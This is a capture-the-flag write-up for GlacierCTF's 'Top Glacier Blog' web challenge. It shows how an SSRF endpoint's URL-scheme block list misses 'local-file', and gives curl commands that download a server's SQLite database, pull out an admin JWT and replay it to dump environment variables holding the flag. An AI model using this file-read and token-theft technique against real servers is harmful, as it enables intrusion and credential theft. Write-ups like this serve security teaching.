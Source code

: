 # Challenge

The Top Glacier Blog provides you with the latest news from the community about a variety of topics. Wheter it is local news or global news, you are always up to date.

https://glacier-top-news.ctf.glacierctf.com/

# Writeup

The flag is saved in the environment:

```bash
WERKZEUG_HIDDEN_FLAG=glacierctf{dummy_flag}
```

The python code reads the flag in the api `/api/system_info`:

```python
def get_system_info():
    _, _, load15 = psutil.getloadavg()
    cpu_usage = (load15/multiprocessing.cpu_count()) * 100

    env_var = {
      key: os.environ[key]
      for key in os.environ
      if "PORT" not in key and "HOST" not in key and "KEY" not in key
    }

    return {
        'environment': env_var,
        'machine': platform.machine(),
        'version': platform.version(),
        'platform': platform.platform(),
        'system': platform.system(),
        'cpu_usage': cpu_usage,
        'ram_usage': psutil.virtual_memory().percent,
    }

@app.route('/api/system_info', methods=['POST'])
@require_jwt
def get_system_information():
    return get_system_info(), 200, {'Content-Type': 'application/json'}
```

However, the api endpoint is protected by jwt token. The token is saved in the sqlite3 db `/tmp/glacier.db`:

```python
@singleton
class Database:
    __instance = None

    def __init__(self, database_name="/tmp/glacier.db"):
        self.connection = sqlite3.connect(database_name)
```

So we need to extract the jwt token from the database. Digging the code, there is a SSRF vulnerability in the following code:

```python
@app.route('/api/get_resource', methods=['POST'])
def get_resource():
    url = request.json['url']

    if(Filter.isBadUrl(url)):
        return 'Illegal Url Scheme provided', 500

    content = urlopen(url)
    return content.read(), 200
```

It filters some url schemes:

```python
    BAD_URL_SCHEMES = ['file', 'ftp', 'local_file']

    @staticmethod
    def isBadUrl(url):
        return Filter.bad_schema(url)
```

But we can still access the file with `local-file:///tmp/glacier.db`. Download the database and read the secret out:

```shell
$ curl -H 'content-type: application/json' -X POST https://glacier-top-news.ctf.glacierctf.com/api/get_resource -d '{"url":"local-file:///tmp/glacier.db"}' > glacier.db
$ sqlite3 glacier.db
sqlite> select * from secrets;
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc19hZG1pbiI6dHJ1ZSwibmFtZSI6ImFkbWluIn0.PoalYA6obPe0HioumOlffOuLKyG80Y5GCkbCmL15pyY
```

Capture the flag with the jwt:

```shell
curl -H 'cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc19hZG1pbiI6dHJ1ZSwibmFtZSI6ImFkbWluIn0.PoalYA6obPe0HioumOlffOuLKyG80Y5GCkbCmL15pyY' -X POST https://glacier-top-news.ctf.glacierctf.com/api/system_info 
# => glacierctf{Py2_I5Su3s_g0_brrrr}
```

# Conclusion

Do not allow SSRF. Do not use Python2 anymore.
